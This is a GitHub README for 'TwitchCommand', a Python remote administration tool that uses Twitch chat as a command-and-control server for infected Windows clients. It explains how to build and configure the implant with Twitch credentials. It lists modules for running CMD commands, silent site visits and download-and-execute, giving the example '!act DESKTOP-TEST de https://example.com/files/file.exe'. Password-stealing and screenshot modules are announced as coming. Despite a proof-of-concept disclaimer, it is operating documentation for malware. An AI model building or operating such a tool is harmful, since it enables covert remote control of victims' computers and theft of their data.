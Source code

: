 # TwitchCommand [![Open Source Love](https://badges.frapsoft.com/os/v2/open-source.svg?v=103)](https://github.com/ellerbrock/open-source-badges/) [![PRs Welcome](https://img.shields.io/badge/PRs-welcome-brightgreen.svg?style=flat-square)](http://makeapullrequest.com) [![GPL Licence](https://badges.frapsoft.com/os/gpl/gpl.svg?v=103)](https://opensource.org/licenses/GPL-3.0/)
A remote administration tool that uses Twitch Chat as a Command and Control server. This program connects clients to a designated Twitch Chat and listens for commands. Inspired by the [Slackor](https://github.com/Coalfire-Research/Slackor) project. Make sure to check it out.

# Requirements
- Twitch account.
- Python 3.x
- PyInstaller (will be required with the next build.)

# Disclaimer
The usage of this program directly violates the Twitch Developer Agreement. The usage of it will lead to the termination of your account and possible further action based on the severity of its usage.

This program was created as a Proof of Concept and it is not intended to be used in a malicious way. I am not responsible for any damages or criminal charges that come from using it.

# Features/Modules
`cmd`  Windows CMD commands. Structured as `cmd command`

`de` Download and execute. File is removed after execution. Structured as `de link`. May throw `Win5 Error` if the user is prompted for UAC. Now supports all file types.

`visit`  Silently visits a website. Structured as `visit link`

`exit` Disconnects the tageted client(s). This does not remove the file. Structured as `exit`


# Usage
Navigate to the twitch page of the channel you selected when making the program.

Upon connection to a server, a new client will announce its presence and client name. If you would like to view a list of all connected clients please use the list command. 

![New Connection.](https://i.imgur.com/fT6yice.png)

`!list`

![List connections.](https://i.imgur.com/RY81sGt.png)

This program also features different modules which can be used.

`!act client command action`

- Act is the keyword to use a command for the client.
- Client specifies a singular user or a group. You can use a specific name (ex: DESKTOP-TEST) or 'all'.
- Command specifies the intended module to use.
- Action is what to use with the selected module. For example 'start.' will open the current directory on the clients PC when using CMD.

An example cmd command would be:

`!act all cmd start.`

![Client action.](https://i.imgur.com/g7d5P83.png)

This would open the current directory on every connected clients PC. Note that the photo is from an older version and True is no longer required.

An example download+execute command would be:

`!act DESKTOP-TEST de https://example.com/files/file.exe`


# Creating the program.
### Coming soon: a builder.
The requirements list is currently not necessary but will be for future builds.

Making the program is quite simple. 
- Change the NICK value on line 10 to your Twitch username.
- Change the PASS value on line 11 to your OAuth password (acquire it here: https://twitchapps.com/tmi/)
- Change the CHAN value on line 12 to a desired channel to listen in. It's recommended to use your personal twitch chat as a streamer may ban an account they see posting odd messages and commands.
- CLIENT_ID and the email information are currently not in use. The email functions will be used for password recovery and the CLIENT_ID will be a Imgur API client ID for screenshot uploads.

# Upcoming features
- More modules (password recovery and screenshot coming soon.)
- Download & execute supporting all file types.
- A builder to simplify making the program as well as making it an exe.
- Command line based control module as an alternative to the twitch website.
